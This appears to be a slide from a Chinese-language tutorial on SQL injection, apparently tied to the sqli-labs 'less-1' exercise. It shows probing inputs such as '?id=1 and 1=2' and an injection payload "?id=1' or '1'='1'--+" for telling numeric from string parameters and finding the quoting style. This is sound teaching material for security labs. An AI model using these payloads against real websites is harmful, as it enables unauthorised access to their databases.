

SQL注入
通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令
?id=1 and 1=1	页面显示正常
?id=1 and 1=2	页面显示就变了
数值型
判断闭合方式

常见的闭合方式有成对的**' '、" "、（ ）**
less-1为例
?id=1	页面正常
?id=1'	页面发生变化
?id=1' or '1'='1'--+ 或者 ?id=1' --+  页面正常
字符型